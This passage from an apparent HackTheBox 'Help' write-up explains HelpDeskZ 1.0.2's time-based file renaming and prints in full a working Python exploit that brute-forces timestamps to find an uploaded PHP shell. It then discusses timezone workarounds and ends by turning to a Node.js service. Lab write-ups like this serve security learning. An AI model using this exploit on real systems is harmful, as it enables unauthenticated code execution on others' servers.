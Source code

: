 #### If we take a look at how the application renames files it gets the md5 hash of the filename concatenated with the time of upload then it concatenates that hash with the original file extension. And that's how the exploit finds the uploaded file. But there's a small problem about time, running the exploit on our box would use our local time. If the timezone of the web app is different from the timezone of our box the exploit will fail to find the file because it will use a wrong time. 
#### If we take a look at the exploit :
```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```
#### We can solve this problem by iterating over a higher range than 300 : `for x in range(0, 300)`
#### This will make it try different hashes according to different times until it finds the file, you can call it a bruteforce attack. That will be easy let's look at another solution. Another solution is to get credentials to login to the web app and edit the timezone in the settings to make it the same as ours. 
<br>
<hr>
### Node.js, Getting Credentials 
#### We saw earlier that port 3000 was open and running `Node.js Express framework` and we haven't looked at that yet. 
![](/images/hackthebox/help/9.png)